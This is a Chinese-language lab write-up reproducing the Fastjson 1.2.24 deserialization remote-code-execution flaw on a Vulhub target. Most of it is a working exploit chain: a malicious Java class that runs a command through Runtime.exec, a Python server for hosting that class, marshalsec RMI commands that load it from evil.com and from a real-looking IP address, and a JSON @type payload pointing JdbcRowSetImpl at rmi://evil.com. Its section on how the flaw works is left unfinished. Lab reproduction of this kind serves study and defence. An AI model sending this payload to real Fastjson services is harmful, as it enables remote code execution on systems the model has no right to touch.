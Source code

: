 # Fastjson 反序列化漏洞



代码库: 

https://github.com/alibaba

# 环境配置

> fastjson  <=1.2.47
>
> fastjson <= 1.2.24
>
> 攻击机: 一台Kali
>
> 一个能够被公众下载到文件的网站.

# 原理

1. 在**序列化**的时候, 会调用成员变量的**get方法**, **私有成员变量**不会被反序列化
2. 在**反序列化**的时候, 会调用成员变量的set 方法, **publibc** 修改的成员全部自动赋值

> 造成漏洞的主要的原因就是因为`自省, 也就是 @type`, **因为fastjson在序列化的时候如果不给一个类, 那么, 就必须使用`@type`来指定类, 否则的话,  程序无法进行正常的序列化, 这种情况叫 "类丢失"**

> ^^^^^^具体原理 ,  暂略 ^^^^^^^^^^^^^^^^

#  漏洞复现

> 靶场用的是 Vulhub

1. 打开**vulhub**给的 `fastjson 1.2.24-rce` , 打开界面如下所示:

![image-20230409212642468](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230409212642468.png)



3.  进行恶意文件的编译: 

> 创建TouchFile.java 这个文件, 文件内容如下:

   ```java
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;
   
public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"touch", "/tmp/success"};    //如果能连接上的话, 一定能访问这个我们成功success文件.
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
   ```

   

4. 上传文件

   将文件上传到 **能够被公众访问到的网站**, (不管怎么样, 我们的目的就是让别人能够访问下载这个恶意文件.) , 如果用的靶机是 本地的虚拟机, 那直接开启 文件上传就行.

```
python -m http.server 8089
```

![image-20230409221108981](https://raw.githubusercontent.com/QDGSCLOUD/BJYH_picture/main/img/image-20230409221108981.png)

**注意: 此处用的是python3开启的服务,  python2开启http服务和python3不一样, 请自行搜索.**



```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://evil.com/#TouchFile" 9999
```







5. 用 marshalsec 开启 `RMI服务` , 监听 9999端口, 并且加载远程类` TouchFile.`class

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://49.233.58.224:1662/#TouchFile" 9999
```



6. 发送payload

   ```Post
   {
       "a":{
           "@type":"java.lang.Class",
           "val":"com.sun.rowset.JdbcRowSetImpl"
       },
       "b":{
           "@type":"com.sun.rowset.JdbcRowSetImpl",
           "dataSourceName":"rmi://evil.com:9999/Exploit",
           "autoCommit":true
       }
   }
   ```








